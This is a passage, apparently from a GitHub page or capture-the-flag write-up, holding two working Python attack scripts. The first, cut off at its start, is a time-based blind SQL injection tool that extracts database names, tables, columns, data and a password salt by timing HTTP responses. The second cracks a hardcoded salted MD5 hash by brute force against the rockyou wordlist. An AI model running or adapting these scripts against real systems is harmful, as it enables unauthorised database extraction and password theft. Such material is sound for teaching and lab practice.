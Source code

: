 ```python
            payload = urllib.parse.quote(payload)
            actual_time = time.time()
            r = requests.get(URL + payload)
            if time.time() - actual_time > TIME:
                data += char
                p1.status(data)
                break

            if char == characters[-1]:
                p2.success("Data found")
                return data


if __name__ == '__main__':
    database, table, column, salt = get_params()
    
    if salt != None:
        get_salt()

    elif database == None:
        get_databases()
    
    elif table == None:
        get_tables(database)
    
    elif column == None:
        get_columns(database, table)
    
    else:
        get_data(database, table, column)

```


## Cracker Python Script
```python
from pwn import *
import hashlib
import sys
import signal

def sig_handler(sig, frame):
    print("\n\n[!]Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)

wordlist = None
salt = "551c92a536111490"
hash = "a25bb9e6782e7329c236d2538dd4f5ac"

with open("/usr/share/wordlists/rockyou.txt", 'rb') as f:
    wordlist = f.read().splitlines()

p1 = log.progress("Cracking Password")

for i, word in enumerate(wordlist):
    p1.status(f"{i/len(wordlist)*100:.2f}%")
    word = word.decode('utf-8').strip()
    if hashlib.md5((str(salt) + word).encode()).hexdigest() == hash:
        print("Password is: ", word)
        sys.exit(0)
```

